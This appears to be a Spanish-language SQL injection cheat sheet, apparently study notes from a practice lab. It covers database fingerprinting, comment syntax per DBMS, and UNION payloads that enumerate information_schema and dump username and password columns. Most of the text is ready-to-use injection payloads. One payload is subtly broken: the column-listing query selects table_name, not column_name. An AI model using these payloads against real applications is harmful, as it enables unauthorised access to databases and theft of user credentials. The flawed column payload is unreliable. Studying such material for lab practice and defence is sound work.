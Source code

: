 # Requisitos para explotar una vulnerabilidad SQLi

A veces para explotar la vulnerabilidad de SQLi, hay que saber:

* El tipo y versión del software de base de datos.
* Las tablas y columnas que contiene la base de datos.

---

## Consultar el tipo y versión de la base de datos

Consultas para algunos tipos de base de datos:

* **Microsoft / MySQL**

```sql
SELECT @@version
```

* **Oracle**

```sql
SELECT * FROM v$version
```

* **PostgreSQL**

```sql
SELECT version()
```

Ejemplo de uso en payload:

```
' UNION SELECT @@version--
```

Para ver qué tipo de base de datos es, tras determinar el número de columnas con `UNION` (verificando cuántas columnas devuelve la consulta original), pruebe las distintas formas de comentar que usan las bases de datos. Ejemplo:

```
' UNION SELECT NULL,NULL#
```

Si esto es válido, ya sabes qué tipo de base de datos es y su sintaxis de comentarios.

---

## Comentarios

You can use comments to truncate a query and remove the portion of the original query that follows your input.

* **Oracle:** `--comment`
* **Microsoft:** `--comment` / `/*comment*/`
* **PostgreSQL:** `--comment` / `/*comment*/`
* **MySQL:** `#comment`  (también `-- comment` — observe el espacio tras `--`)
* **En general:** `/*comment*/`

---

## Consultas para obtener la versión (resumen)

* **Oracle**

```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```

* **Microsoft**

```sql
SELECT @@version
```

* **PostgreSQL**

```sql
SELECT version()
```

* **MySQL**

```sql
SELECT @@version
```

---

## LISTADO DEL Contenido de la base de datos

La mayoría de tipos de base de datos, excepto **Oracle**, tienen un esquema de información que proporciona datos sobre la base de datos.

---

### Consultar tablas

```sql
SELECT * FROM information_schema.tables
```

Payload:

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

---

### Consultar columnas

```sql
SELECT * FROM information_schema.columns WHERE table_name='Users'
```

Payload:

```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns+WHERE+table_name='nombretabla'--
```

`table_name` es una columna que pertenece a `information_schema.tables`.

---

Se debe comprobar que las dos columnas utilizadas en ambas consultas contengan datos de tipo cadena.

---

### Ver el contenido de las columnas de una tabla

```sql
' UNION SELECT username_qekzmb,password_dneajr FROM users_nbmzma--
```

---

*Fin del documento — contenido reestructurado manteniendo solo la información proporcionada.*


